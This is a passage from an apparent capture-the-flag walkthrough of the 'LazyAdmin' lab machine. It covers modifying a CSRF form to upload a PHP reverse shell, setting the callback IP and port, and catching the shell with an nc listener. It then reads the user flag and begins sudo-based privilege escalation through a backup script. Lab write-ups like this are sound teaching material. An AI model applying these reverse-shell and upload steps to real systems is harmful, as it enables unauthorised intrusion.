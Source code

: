Before we use the Cross-Site Request Forgery vulnerability we will need to make some changes to it.  
The first thing that we will need to chang is under the form tag. Change the url after `action=` to the the following. `http://10.10.200.255/content/as/?type=ad&mode=save`  
REMEBER YOUR IP ADDRESS WILL BE DIFFERENT!

Secondly you will need to replace the php code with a reverse shell from [pentest monkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Simply replace all the code that is between `<?php` and `?>`. With the code you downloaded from pentest monkey.  

Now the last theing that you will need to change is the IP address and the port that your reverser shell will call out to.  
The IP address is going to be the IP address of your computer and the port number should be a higher port.   
```
  $ip = '10.8.2.222';  // CHANGE THIS
  $port = 9999;       // CHANGE THIS
```  
Before we pull the trigger on our exploit we need to set up a our listener.  
Command: `nc -lvnp 9999`  

Code Breakdown:
```
-l: listen mode, for inbound connects

-v: verbose [use twice to be more verbose]

-n: numeric-only IP addresses, no DNS

-p: local port number
```
Now that we have set up our listener we are going to fire off out exploit.  
Command: `firefox exploit.html`  
Once finished we will need to open up our browser and go to `/content/inc/ads` from here we will see our exploit. I chose to name mine shell.php. Yours will be whatever you named yours.  
Lets click on our exploite and see if it trips our listener.  
{{< figure src="/images/LazyAdmin/listener.png">}}

<br>
We have a successfull shell! Lets take a look aound and see if we are able to find any of our flages.  

If we use the `ls` command we can see that there is a user in the home folder. It seems to the none other then your everyday IT guy.  
{{< figure src="/images/LazyAdmin/itGuy.png">}}
Now that we know where the user.txt file is how about we see if it actally contains out flag.  
Command: `cat /home/itguy/user.txt`  


{{< figure src="/images/LazyAdmin/userFlag.png">}}
Objective one is complete.. We just found our user flag.  

## Privilege Escalation
---
Our next objective is to figure out how can escalation our privileges to a root user.  
We are going to start by checking to see what we can run as sudo by using the command of `sudo -l`.  
<br>
It looks like we are only able to run a perl script as admin. So it might be worth checking out this script and seeing what it does.  
{{< figure src="/images/LazyAdmin/sudo.png">}}
After using the cat command to view the content of the `backup.pl`, it seem that this script calls an additional script call `copy.sh`.  
{{< figure src="/images/LazyAdmin/perlBackup.png">}}
So now we have to chase the white rabbit and see what the `copy.sh` file does.  
{{< figure src="/images/LazyAdmin/copySh.png">}}
At this point I am a litte confused because it seems that our `copy.sh` script is actually a reverse shell. You can read more about it on the [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) website.  